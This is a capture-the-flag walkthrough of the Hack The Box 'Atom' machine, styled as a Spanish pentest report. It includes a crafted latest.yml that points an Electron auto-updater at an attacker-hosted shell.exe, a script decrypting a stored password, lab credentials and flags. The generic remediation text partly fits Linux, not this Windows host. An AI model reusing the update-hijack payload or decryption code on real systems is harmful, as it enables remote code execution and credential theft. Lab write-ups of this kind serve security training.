# Informe Técnico de Seguridad Ofensiva: Atom


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Atom** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Atom |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Medium |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

On what port does Atom have a service listening that is an in-memory key-value database?

R:6379



**According to the Internal QA Documentation, to initiate the QA process, place the updated in one of the _________ folders.**

R: client 





**When installed on a Windows host, to what domain does the Heed application reach out for updates?**

R: updates.atom.htb





**What is the relative path on `updates.atom.htb` for the YAML file that the application attempts to get?**

R: latest.yml



```jsx

f="$(find . -path '*$PLUGINSDIR/app-64.7z' | head -n 1)"
echo "[*] bundle: $f"
[ -z "$f" ] && echo "[x] No encontré $PLUGINSDIR/app-64.7z" && exit 1


7z x "$f" -oapp64 >/dev/null


find app64 -iname 'app-update.yml' -print -exec sh -c 'echo "==== {} ===="; sed -n "1,120p" "{}"' \;


find app64 -iname 'app.asar' -o -iname '*.asar'


ASAR="$(find app64 -iname 'app.asar' | head -n1)"
if [ -n "$ASAR" ]; then
  mkdir -p app_unpacked
  npx --yes asar extract "$ASAR" app_unpacked
  # Busca cadenas de actualización dentro del código
  rg -n -i 'updates\.atom\.htb|app-update\.yml|latest\.yml|client' app_unpacked || \
  grep -RniE 'updates\.atom\.htb|app-update\.yml|latest\.yml|client' app_unpacked
fi


APPYML="$(find app64 app_unpacked -iname 'app-update.yml' | head -n1)"
if [ -n "$APPYML" ]; then
  BASE_URL="$(awk -F: '/^\s*url:\s*/{sub(/^[[:space:]]+/,"",$2); gsub(/[[:space:]\r]/,"",$2); print $2; exit}' "$APPYML")"
  echo "[+] BASE_URL = $BASE_URL"
  REL_PATH="/$(echo "$BASE_URL" | sed -E 's~https?://updates\.atom\.htb/?~~')/latest.yml"
  REL_PATH="$(echo "$REL_PATH" | sed 's#//#/#g')"
  echo "[+] Relative path = $REL_PATH"
fi

```

**This tool is built with a solution for packaging and distributing Electron applications with auto-update. What is the name of that solution?**

R: electron-builder



```jsx

7z x 'heedv1 Setup 1.0.0.exe' -oheed_exe >/dev/null
7z x 'heed_exe/$PLUGINSDIR/app-64.7z' -oheed_app >/dev/null
asar extract heed_app/resources/app.asar app_src
grep -RniE 'electron([ -]?builder|[ -]?forge|[ -]?packager)|electron-updater|autoUpdater|publish|nsis|squirrel' app_src

```

**There is a remote code execution vulnerability in applications built with this version of Electron-Builder by messing with two fields `latest.yml` file. One is the `url` field. What is the other?**

R:path



**What user is the update server running as?**

R:  jason

```jsx
version: 1.2.3
path: http://10.10.14.13/s'hell.exe
sha512: f9591dfb72032915d0b00ef68fc7424ec8676f5fc847ea334e5997c55f127b1711169905390a976850862f8e6347c6c2cb9be5c25276670814592540655472d6
```





Submit the flag located on the jason user's desktop.

R: 198223a783ecef7054f632a8128ab4f2



**What is the password to access Redis?**

R:kidvscat_yes_kidvscat



**What is the administrator user's password on Atom?**

R: kidvscat_admin_@123





```jsx
import base64
from des import *
hash = base64.b64decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))

```

**Submit the flag located on the administrator user's desktop.**

R: c1c0218bebc9f832da67e8a589afadb9



---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
